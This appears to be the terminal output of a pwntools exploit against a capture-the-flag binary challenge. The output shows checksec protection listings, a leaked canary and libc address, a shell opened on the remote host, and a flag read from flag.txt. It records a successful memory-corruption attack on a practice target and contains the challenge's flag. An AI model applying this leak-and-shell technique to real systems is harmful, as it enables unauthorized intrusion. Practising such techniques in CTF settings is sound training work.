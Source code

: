 ```
[+] Opening connection to chal.firebird.sh on port 35037: Done
[*] '/home/kali/Desktop/CTF/legend/program_patched'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[*] '/home/kali/Desktop/CTF/legend/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
0xc88c1f37103bab00
0x7f8c73be0000
[*] Switching to interactive mode
So this is what you tried to do to escape?
BBBBBBBBBBBBBBBBBBBBBBBB
3 days have passed$ ls
flag.txt
the_legend_of_firebird
$ cat flag.txt
flag{UwU_n1n73nd0_pl345e_d0nt_5ue_me}
```